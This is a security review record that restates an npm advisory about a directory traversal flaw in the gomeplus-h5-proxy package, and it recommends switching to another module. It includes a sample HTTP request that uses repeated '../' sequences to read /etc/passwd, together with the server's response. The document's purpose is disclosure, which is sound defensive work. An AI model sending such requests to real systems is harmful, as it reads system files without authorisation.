 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Liang Gong
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/gomeplus-h5-proxy
Review-Date: '2017-06-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Directory Traversal*<br><br>Because there is no fix for this module, we suggest using a different one.
### Details
`gomeplus-h5-proxy` is vulnerable to a directory traversal issue, allowing attackers to access any file in the system by placing '../' in the URL.  Example request: ``` GET /../../../../../../../../../../../../../../../etc/passwd HTTP/1.1 host: localhost ``` and response: ``` HTTP/1.1 200 OK Access-Control-Allow-Origin: * Date: Mon, 22 May 2017 21:29:51 GMT Connection: keep-alive Transfer-Encoding: chunked  {contents of /etc/passwd} ```
<br><br>• Affected Versions: <99.999.9999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://github.com/JacksonGL/NPM-Vuln-PoC/tree/master/directory-traversal/gomeplus-h5-proxy)']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
